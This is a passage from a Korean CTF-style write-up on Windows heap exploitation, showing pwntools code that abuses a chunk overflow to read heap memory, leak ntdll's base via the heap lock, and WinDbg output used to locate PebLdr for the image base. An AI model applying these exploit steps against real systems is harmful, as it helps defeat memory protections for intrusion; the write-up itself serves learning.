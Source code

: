 `Lock - 0x163d30` 로 ntdll의 base address를 구할 수 있습니다. (그리고 윈도우 업데이트 때문에 ntdll 버전이 바뀌어 `0x163dd0`으로 바뀌었다는 슬픈 사연이... 업데이트 미워)

```python
#...
def readmem(key, addr):
	add("LFH4",0x60,'a'*0x70 + p64(addr))
	view(key)
	p.recvuntil("Data:")
	return u64(p.recv(8))

#...

Lock = readmem(key, heap_base+0x2c0)# _HEAP->LockVariable->Lock
ntdll = Lock - 0x163dd0 #Lock - ntdll base address offset
print(hex(ntdll))
```

![pwncoolsexy-part4/Untitled%2018.png](pwncoolsexy-part4/Untitled%2018.png)

## Imagebase

ntdll 주소를 구했으면 바이너리의 imagebase도 금방 구할 수 있습니다. 바로 `PebLdr` 을 이용해서 구하면 됩니다!

> PebLdr : 로드된 모듈들의 Double Linked List를 담고 있으며 `_PEB→Ldr`에서 참조한다.

```
0:004> lm 
start             end                 module name
...           
00007ffd`ea290000 00007ffd`ea47d000   ntdll      (pdb symbols)    

0:004> dt ntdll!_PEB @$peb Ldr
   +0x018 Ldr : 0x00007ffd`ea3f53c0 _PEB_LDR_DATA

0:004> dx -r1 ((ntdll!_PEB_LDR_DATA *)0x7ffdea3f53c0)
((ntdll!_PEB_LDR_DATA *)0x7ffdea3f53c0)            : 0x7ffdea3f53c0 [Type: _PEB_LDR_DATA *]
    [+0x000] Length           : 0x58 [Type: unsigned long]
    [+0x004] Initialized      : 0x1 [Type: unsigned char]
    [+0x008] SsHandle         : 0x0 [Type: void *]
    [+0x010] InLoadOrderModuleList [Type: _LIST_ENTRY]
    [+0x020] InMemoryOrderModuleList [Type: _LIST_ENTRY]
...
0:004> ? 00007ffd`ea3f53c0 - 00007ffd`ea290000
Evaluate expression: 1463232 = 00000000`001653c0
```